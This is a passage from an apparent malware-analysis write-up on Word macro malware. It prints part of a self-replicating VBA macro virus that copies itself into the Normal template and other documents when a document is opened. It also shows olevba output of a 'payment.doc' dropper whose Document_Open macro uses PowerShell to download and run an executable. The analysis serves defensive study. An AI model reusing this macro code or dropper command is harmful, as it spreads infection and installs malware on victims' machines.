 keimeno = Input(LOF(1), 1)
Close #1
kk& = InStr(1, keimeno, "'RELAX")
keimeno = Right$(keimeno, Len(keimeno) - kk& + 1)
For j = 1 To 2
If j = 1 Then
NormalTemplate.VBProject.vbcomponents.Item("ThisDocument").Export x$
Else
ActiveDocument.VBProject.vbcomponents.Item("ThisDocument").Export x$
End If
Open x$ For Input As #1
rlx = Input(LOF(1), 1)
Close #1
d1 = InStr(1, rlx, "'RELAX")
If d1 = 0 Then
If j = 1 Then
NormalTemplate.VBProject.vbcomponents.Item("ThisDocument").CodeModule.InsertLines 1, keimeno
NormalTemplate.Save
Else
ActiveDocument.VBProject.vbcomponents.Item("ThisDocument").CodeModule.InsertLines 1, keimeno
End If
End If
Next j
'====================
Dim PRostasia As Byte
PRostasia = 1
fff = FreeFile
If Dir(ActiveDocument.FullName, 6) <> "" Then
Open ActiveDocument.FullName For Binary As #fff
Put #fff, 862, PRostasia
Close #fff
ActiveDocument.Save
End If
Kill x$
Application.ScreenUpdating = True
End Sub

Private Sub Document_Open()
Call GOODSub
End Sub
{% endhighlight %}

#### `olevba .\payment.doc`

{% highlight vb linenos %}
PS C:\Users\vagrant\Desktop\work> olevba .\payment.doc                                                                                olevba 0.55.1 on Python 3.7.2 - http://decalage.info/python/oletools
===============================================================================
FILE: .\payment.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: .\payment.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub Document_Open()
Shell ("cmd.exe /c PoWerSHElL (nEW-oBjEcT sYsTeM.neT.wEBcLiEnT).dOWNLOadfIlE('hxxp://<REDACTED>/NDGAFV.exe','%Appdata%\playa.exe');&start %Appdata%\playa.exe& exit")
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |